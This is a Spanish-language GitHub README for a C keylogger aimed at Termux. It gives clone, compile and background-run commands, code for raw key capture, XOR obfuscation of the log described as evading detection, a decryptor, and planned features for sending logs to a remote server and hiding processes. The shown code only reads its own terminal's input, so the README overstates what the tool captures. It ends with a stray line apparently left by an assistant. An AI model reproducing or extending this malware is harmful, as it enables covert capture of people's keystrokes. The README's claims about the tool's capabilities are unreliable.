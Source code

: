 
🔐 Keylogger en C para Termux

Captura de teclas con cifrado XOR y ejecución en segundo plano

Este proyecto es un keylogger básico en C diseñado para ejecutarse en Termux (Android/Linux). Captura pulsaciones de teclas en tiempo real y las almacena en un archivo cifrado con XOR para evitar detección fácil. Además, puede ejecutarse en segundo plano sin interferir con otras aplicaciones.


---

📌 Características

✅ Captura teclas sin necesidad de presionar Enter.

✅ Guarda las teclas en un archivo de log (log.txt).

✅ Cifra los datos usando XOR (0xAA) para evitar lectura directa.

✅ Corre en segundo plano usando nohup y disown.

✅ Descifrado de datos con un programa en C.

✅ Filtra caracteres no imprimibles para evitar datos corruptos.


---

🔧 Instalación y Uso

1️⃣ Clonar el repositorio

git clone https://github.com/V1nt3r4/keylogger_tool.git
cd keylogger_tool

2️⃣ Compilar el keylogger

clang keylogger.c -o keylogger

3️⃣ Ejecutar el keylogger

./keylogger

🔹 Para ejecutarlo en segundo plano:

nohup ./keylogger > /dev/null 2>&1 &
disown

🔹 Para detenerlo:

pkill keylogger

4️⃣ Ver el contenido del log (cifrado)

cat log.txt

5️⃣ Descifrar el log

clang decrypt.c -o decrypt
./decrypt


---

📜 Explicación del Código

🔹 1️⃣ Captura de teclas (get_key())

char get_key() {
    struct termios oldt, newt;
    char ch;
    tcgetattr(STDIN_FILENO, &oldt);
    newt = oldt;
    newt.c_lflag &= ~(ICANON | ECHO);
    tcsetattr(STDIN_FILENO, TCSANOW, &newt);
    ch = getchar();
    tcsetattr(STDIN_FILENO, TCSANOW, &oldt);
    return ch;
}

📌 Lógica:

1. Modifica la terminal para desactivar el buffer de línea y eco de caracteres.


2. Captura una tecla en tiempo real.


3. Restaura la configuración original de la terminal.




---

🔹 2️⃣ Escritura segura en el archivo (log.txt)

if (isprint(key)) {
    fputc(key ^ XOR_KEY, file);
    fflush(file);
}

📌 Lógica:

1. Filtra caracteres imprimibles para evitar datos corruptos.


2. Cifra cada tecla con XOR (^ 0xAA) antes de escribirla en log.txt.


3. fflush(file); asegura que los datos se guarden inmediatamente.




---

🔹 3️⃣ Manejo de señales (CTRL+C)

void handle_exit(int sig) {
    if (file) fclose(file);
    printf("\n[+] Keylogger detenido. Datos guardados en %s\n", LOG_FILE);
    exit(0);
}

📌 Lógica:

1. Intercepta CTRL+C para evitar que se cierre inesperadamente.


2. Cierra correctamente el archivo log.txt antes de salir.




---

🔹 4️⃣ Descifrado de datos (decrypt.c)

int ch;
while ((ch = fgetc(file)) != EOF) {
    putchar(ch ^ XOR_KEY); // XOR inverso
}

📌 Lógica:

1. Lee cada carácter del archivo log.txt.


2. Aplica XOR inverso (^ 0xAA) para recuperar las teclas originales.


3. Muestra el resultado en pantalla.




---

💻 Aplicaciones en Ciberseguridad

🔹 1️⃣ Seguridad Ofensiva (Pentesting)

Se usa para testear seguridad en sistemas Linux.

Puede demostrar fallos en la protección de terminales.

Puede probar la efectividad de antivirus y herramientas de detección.


🔹 2️⃣ Seguridad Defensiva

Ayuda a detectar comportamiento sospechoso en procesos.

Puede ser usado para analizar técnicas de malware y crear contramedidas.

Demuestra la importancia de proteger stdin en Linux.


🔹 3️⃣ Educación y Entrenamiento

Permite entender cómo funciona la captura de eventos de teclado en Linux.

Introduce el concepto de cifrado XOR en aplicaciones de seguridad.

Enseña cómo ocultar procesos en sistemas basados en Unix.



---

⚠️ Advertencia Legal

Este keylogger fue desarrollado con fines educativos y de auditoría en ciberseguridad.
El uso de este software en sistemas sin permiso es ilegal y puede tener consecuencias penales.

Úsalo bajo tu propia responsabilidad y solo en entornos controlados.


---

📢 Contribuciones

Si tienes ideas para mejorar este proyecto, ¡haz un pull request o abre un issue en GitHub!

🚀 Contacto: [Tu email o GitHub]


---

🎯 Mejoras Futuras

🔹 Enviar logs cifrados a un servidor remoto.
🔹 Mejor manejo de procesos y ocultación.
🔹 Soporte para capturar teclas especiales (Shift, Enter).


---

📌 Conclusión

Este proyecto muestra cómo funciona un keylogger en C, su aplicación en seguridad ofensiva y defensiva, y la importancia de proteger sistemas contra este tipo de ataques.

Si quieres aprender más sobre seguridad en Linux y programación en C, este es un excelente punto de partida. 🚀


---

📢 ¿Quieres agregar algo más al README?

 